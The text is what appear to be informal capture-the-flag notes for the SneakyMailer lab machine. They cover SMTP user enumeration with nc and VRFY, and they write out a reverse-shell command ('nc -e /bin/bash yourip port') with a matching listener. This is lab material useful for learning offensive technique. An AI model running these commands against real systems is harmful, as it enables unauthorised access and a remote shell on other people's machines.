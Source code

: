 add sneakycorp.htb to /etc/hosts with its ip address

verify emails exist using the port using:

```
nc 10.10.10.197 25
```
and then

```
vrfy laelgreer@sneakymailer.htb

```

try smtp enumeration using this: https://www.hackingarticles.in/4-ways-smtp-enumeration/ and fail
try sending mails using this syntax and try to get a reverse shell using ```nc -e /bin/bash yourip port (nc -vlp on the attacker side) ```

reverse shell doesnt work but putting nc on port 80 would make it a simple http request, and u can send it via browser and try sending it mails,
test it on ur local by oopening a browser and typing http://localhost
